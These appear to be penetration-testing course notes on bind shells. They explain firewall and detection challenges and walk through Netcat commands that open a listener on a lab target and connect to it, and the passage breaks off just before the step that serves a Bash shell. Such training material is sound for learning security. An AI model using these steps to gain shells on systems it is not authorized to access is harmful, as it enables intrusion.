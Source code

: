 ### Challenges

- **Listener Requirement**: A listener must be running on the target, or the attacker must find a way to start one.
- **Firewall Restrictions**:
    - OS firewalls (Windows/Linux) often block incoming connections unless associated with trusted applications.
    - Network firewalls and NAT/PAT configurations typically restrict incoming traffic, requiring internal network access.
- **Detection**: Incoming connections are more likely to be detected and blocked compared to outbound connections.

### Tools

- **Netcat (nc)**:
    - A versatile tool for TCP, UDP, and Unix socket communication.
    - Functions as both client and server, supporting IPv4/IPv6, proxying, and text I/O.
    - Known as the "Swiss-Army Knife" for network tasks.

## Practical Example: Establishing a Bind Shell with Netcat

- **Scenario**: Interacting with an Ubuntu Linux target on the same network, no security restrictions.
- **Steps**:
    1. **Start Listener on Target (Server)**:
        
        ```bash
        nc -lvnp 7777
        
        ```
        
        - `l`: Listen mode.
        - `v`: Verbose output.
        - `n`: No DNS resolution.
        - `p 7777`: Listen on port 7777.
        - Output: `Listening on [0.0.0.0] (family 0, port 7777)`.
    2. **Connect from Attack Box (Client)**:
        
        ```bash
        nc -nv 10.129.41.200 7777
        
        ```
        
        - Connects to target IP (10.129.41.200) on port 7777.
        - Output: `Connection to 10.129.41.200 7777 port [tcp/*] succeeded!`.
    3. **Verify Connection on Target**:
        - Target shows: `Connection from 10.10.14.117 51872 received!`.
    4. **Test Communication**:
        - Client sends: `Hello Academy`.
        - Target receives: `Hello Academy`.
        - Note: This is a basic TCP session, not a full shell.
    5. **Serve a Bash Shell**:
        - On target:
            